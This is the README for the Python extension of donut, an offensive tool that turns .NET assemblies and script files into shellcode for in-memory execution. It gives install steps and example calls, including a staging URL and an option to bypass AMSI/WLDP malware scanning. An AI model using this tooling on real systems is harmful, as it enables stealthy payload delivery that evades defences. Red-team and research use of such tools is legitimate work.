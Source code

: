 # Python Extension

A Python C extension is now available which allows you to dynamically generate donut shellcode in Python.

## Requirements

The extension has only been tested in Python 3.7, it shouldn't have any compatibility issues with older 3.X versions of Python.

It will ***not*** work in Python 2.x.

## Installing the Extension

(Once the extension has been published to PyPi)
```
pip3 install donut
```

## Manually Compiling And Installing the Extension

```bash
git clone https://github.com/TheWover/donut && cd donut
pip3 install . # or python setup.py install
```

## Usage

The Python extension accepts the same parameters as the main donut executable.

Here's a minimalistic example of using the extension:

```python
import donut
shellcode = donut.create(file="naga.exe", params='https://172.16.164.1/')
```

The ```donut``` module exposes only one function ```create()```, which is used to generate shellcode and accepts both positional and keyword arguments.

The only required parameter the ```create()``` function needs is the ```file``` argument which accepts a path to the .NET EXE/DLL or VBS/JS/XSL file to turn into shellcode.

```python
import donut

shellcode = donut.create(
    file='naga.exe',         # .NET assembly, EXE, DLL, VBS, JS or XSL file to execute in-memory
    url='http://127.0.0.1',  # HTTP server that will host the donut module
    arch=1,                  # Target architecture : 1=x86, 2=amd64, 3=amd64+x86(default)
    bypass=3,                # Bypass AMSI/WLDP : 1=skip, 2=abort on fail, 3=continue on fail.(default)
    cls='namespace.class',   # Optional class name.  (required for .NET DLL)
    method='method',         # Optional method or API name for DLL. (method is required for .NET DLL)
    params='arg1,arg2',      # Optional parameters or command line, separated by comma or semi-colon.
    runtime='version',       # CLR runtime version. MetaHeader used by default or v4.0.30319 if none available
    appdomain='name'         # AppDomain name to create for .NET. Randomly generated by default.
)
```

## Author

The Python extension was written by [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
